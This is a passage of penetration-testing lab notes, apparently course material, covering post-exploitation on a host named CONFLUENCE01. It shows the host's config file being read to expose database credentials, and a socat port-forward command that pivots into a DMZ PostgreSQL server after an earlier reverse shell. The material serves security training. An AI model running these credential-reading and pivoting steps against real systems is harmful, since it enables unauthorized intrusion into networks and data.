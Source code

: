 {% endtab %}

{% tab title="4. Exposed Credentials" %}
{% code overflow="wrap" %}
```bash
# configuration files
confluence@confluence01:/opt/atlassian/confluence/bin$ cat /var/atlassian/application-data/confluence/confluence.cfg.xml

...
    <property name="hibernate.connection.password">D@t4basePassw0rd!</property>
    <property name="hibernate.connection.url">jdbc:postgresql://10.4.50.215:5432/confluence</property>
    <property name="hibernate.connection.username">postgres</property>
... 
```
{% endcode %}
{% endtab %}
{% endtabs %}

### Socat

Socat is a powerful command-line utility for bidirectional data transfer between two data channels. In this case, we use it to forward TCP connections from one network interface on a compromised host to a service on a different network that’s otherwise unreachable.

{% hint style="success" %}
**Recap**

1. We obtained a reverse shell on `CONFLUENCE01` and we can execute commands as the limited `confluence` user.
2. We identified that it has:
   1. A **WAN interface** (`192.168.50.63`) that our Kali machine can reach
   2. A **DMZ interface** (`10.4.50.63`) that can reach `PGDATABASE01` at `10.4.50.215:5432`
3. `CONFLUENCE01` does not have (and we can't install) the tools needed (e.g. `psql`) to access the database server on `PGDATABASE01`.&#x20;
{% endhint %}

Since we can’t install new software on `CONFLUENCE01` and `PGDATABASE01` isn’t accessible directly from our Kali machine, we can leverage `socat` to create a **TCP port forward**.

* **Listen** on a chosen TCP port (e.g., `2345`) on `CONFLUENCE01`’s WAN-facing interface.
* **Forward** any connections received on this port to `10.4.50.215:5432` on the DMZ side.

> _On `CONFLUENCE01`, we'll start a verbose (`-ddd`) Socat process. It will listen on TCP port `2345` (`TCP-LISTEN:2345`), fork into a new subprocess when it receives a connection (`fork`) instead of dying after a single connection, then forward all traffic it receives to TCP port `5432` on `PGDATABASE01` (`TCP:10.4.50.215:5432`)._

{% code overflow="wrap" %}
```bash
# from CONFLUENCE01
confluence@confluence01:/opt/atlassian/confluence/bin$ socat -ddd TCP-LISTEN:2345,fork TCP:10.4.50.215:5432
```
{% endcode %}
